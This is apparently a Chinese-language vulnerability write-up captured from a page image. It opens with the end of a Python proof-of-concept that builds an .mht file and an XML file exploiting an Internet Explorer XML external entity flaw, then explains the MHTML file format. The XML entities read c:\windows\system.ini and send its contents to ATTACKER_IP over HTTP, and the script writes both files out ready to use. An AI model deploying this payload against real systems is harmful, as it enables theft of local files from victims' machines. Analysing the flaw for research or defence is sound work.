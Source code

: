 ```python 
'</html>\n\n\n'

'--=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001--'
)

xml_file=(
'<!ENTITY % data SYSTEM "c:\windows\system.ini">\n'
'<!ENTITY % param1 "<!ENTITY exfil SYSTEM \'http://'+str(ATTACKER_IP)+":"+PORT+'/?%data;\'>">\n'
'<!ENTITY % data SYSTEM "file:///c:/windows/system.ini">\n'
'<!ENTITY % param1 "<!ENTITY exfil SYSTEM \'http://'+str(ATTACKER_IP)+":"+PORT+'/?%data;\'>">\n'
)

def mk_msie_0day_filez(f,p):
    f=open(f,"wb")
    f.write(p)
    f.close()


if __name__ == "__main__":
    mk_msie_0day_filez("msie-xxe-0day.mht",mht_file)
    mk_msie_0day_filez("datatears.xml",xml_file)
    print "Microsoft Internet Explorer XML External Entity 0day PoC."
    print "Files msie-xxe-0day.mht and datatears.xml Created!."
    print "Discovery: Hyp3rlinx / Apparition Security"
```

#### 漏洞分析：

首先触发漏洞的利用文件为MNT文件。

```
网页归档（英语：MIME HTML或MIME Encapsulation of Aggregate HTML Documents，缩写mhtml。又称单一文件网页或网页封存文件）为以多用途互联网邮件扩展格式，将一个多附件网页（如包含大量图片、Flash动画、Java小程序的网页）存储为单一文件[1]，可用于发送HTML电子邮件，此单一文件即称为一网页封存文件，其扩展名为.mht。这种格式有时被简称为MHT。
Internet Explorer
Microsoft Internet Explorer自5.0版支持MHTML格式，是第一个支持MHTML文件的浏览器。


MHTML文件的格式如下：

Subject:標題
Date: Wed, 15 Dec 2004 10:05:01 +1000
Content-Type: multipart/related;
Content-Transfer-Encoding: quoted-printable
Content-Location: file://C:/fishier.html
This is a multi-part message in MIME format.

Content-Type: text/html;
<HTML>
 <HEAD>
  <TITLE>Title</TITLE>
 </HEAD>
 <BODY>
   ...
 </BODY>
</HTML>

Content-Type: image/gif
Content-Transfer-Encoding: base64
Content-Location: file://C:/image.gif
RHLJbDYX0KhHzv7yGcCgghhgHLJbDYX0KhHzv7yGcChkNdjn+Nfn+NXm98/i98rf9sfe9b/Z9L3X
87fU8qP8afL8AHzvfg7yGcChkNIwMZHLJbDYX0KhHzv37yGcChkNIw2Oj5AAAZIAlhAAACwAAAAA
er8JhHg8PhgQBrPZwG673+6CoUCv2+91gn5PGPT7fgOCg4SFhQKIiYoCAY2Oj5AAAZIAlJWXACEA
4SFh==
```